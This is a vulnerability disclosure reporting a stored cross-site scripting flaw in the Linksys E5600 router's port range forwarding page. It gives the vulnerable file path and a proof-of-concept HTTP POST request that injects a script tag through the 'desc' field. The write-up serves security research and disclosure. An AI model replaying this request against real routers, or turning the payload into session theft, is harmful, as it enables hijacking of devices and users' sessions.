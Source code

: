 

# TARGET
Linksys E5600 Router
Firmware Version:1.1.0.26


# BUG TYPE
Cross-Site Scripting(XSS)

# Abstract
The dynamic string concatenation (prf_table_content = prf_table_content + ...) lacks proper escaping and filtering, especially for user-controlled fields like element.desc. This field is directly embedded into the HTML without sanitization, allowing attackers to inject malicious scripts, resulting in potential XSS vulnerabilities.

# Details

\squashfs-root\www\pages\setting\security\setting-security-portrangefowarding.html

![](images/Snipaste_2025-01-07_19-39-11.png)
The dynamic string concatenation (`prf_table_content = prf_table_content + ...`) used in the construction of the HTML table lacks proper escaping and filtering, specifically in the handling of user-controlled data such as the `element.desc` field. The `element.desc` field is directly embedded into the HTML output without sanitization, making it possible for attackers to inject malicious JavaScript or HTML content.Successful exploitation of this vulnerability could allow attackers to perform unauthorized actions, steal sensitive information, or hijack user sessions.

![image](https://github.com/SunnyYANGyaya/firmcrosser/blob/main/Linksys/E5600-1/2025-01-07%20194217.png)
An attacker can craft malicious inputs that are injected into a similar data structure via external sources such as API requests, malicious configuration files, or specially crafted HTTP requests. These inputs are rendered into the web interface without proper sanitization, enabling the execution of injected JavaScript code when the victim accesses the affected page.

![](/Snipaste_2025-01-07_19-49-00.png)


POC
```
POST /API/obj HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 199
Origin: http://192.168.1.1
Connection: keep-alive
Referer: http://192.168.1.1/setting.html
Cookie: HSESSIONID=19216811221637991217
Priority: u=0

{
    "portRangeForward": {
        "PortRangeForwardT": [
            {
                "desc": "<script>alert('XSS')</script>",
                "externalPortStart": "2",
                "externalPortEnd": "6",
                "proto": "both",
                "deviceIp": "192.168.1.22",
                "enable": "0",
                "name": "prf0"
            }
        ]
    }
}
```
